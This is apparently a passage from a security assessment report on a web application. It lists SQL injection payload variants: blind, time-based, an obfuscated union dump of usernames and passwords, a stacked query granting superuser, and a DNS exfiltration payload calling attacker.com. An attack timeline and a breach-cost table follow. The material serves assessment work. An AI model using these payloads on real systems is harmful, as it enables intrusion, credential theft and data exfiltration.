 
**Exploitation Payload Variations**:

```sql
-- Boolean-based blind
' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 1/0 END)--

-- Time-based blind
' AND (SELECT CASE WHEN (username='admin') THEN pg_sleep(5) ELSE 1 END FROM auth_user)--

-- Union-based με obfuscation
' UnIoN SeLeCt NuLl,UsErNaMe,PaSsWoRd,NuLl,NuLl,NuLl,NuLl FrOm auth_user--

-- Stacked queries
'; UPDATE auth_user SET is_superuser=1 WHERE username='attacker'--

-- Out-of-band (DNS)
' OR (SELECT LOAD_FILE(CONCAT('\\\\',version(),'.attacker.com\\a')))--
```

#### 2.1.3 Real-World Attack Scenario

**Attack Timeline**:
```
T+0:00 - Attacker discovers /catalog endpoint
T+0:30 - Manual ' OR '1'='1 test confirms SQLi
T+1:00 - SQLMap automated exploitation begins
T+2:30 - Database schema extracted
T+5:00 - All user credentials dumped
T+7:00 - Credit card data exfiltrated
T+10:00 - Backdoor user created
T+15:00 - Database dropped (if malicious)
```

#### 2.1.4 Business Impact Quantification

Βάσει του **IBM Cost of a Data Breach Report 2024**:

| Impact Category | Cost | Calculation |
|----------------|------|-------------|
| Detection & Escalation | €150K | Forensics, consultants |
| Notification | €80K | Legal, PR, notifications |
| Post Breach Response | €200K | Credit monitoring, call center |
| Lost Business | €1.5M | Customer churn (25%) |
| Regulatory Fines | €2M | GDPR 2% annual turnover |
| **TOTAL** | **€3.93M** | Average for retail sector |

### 2.2 Cross-Site Scripting (XSS) - Advanced Exploitation

#### 2.2.1 XSS Payload Arsenal
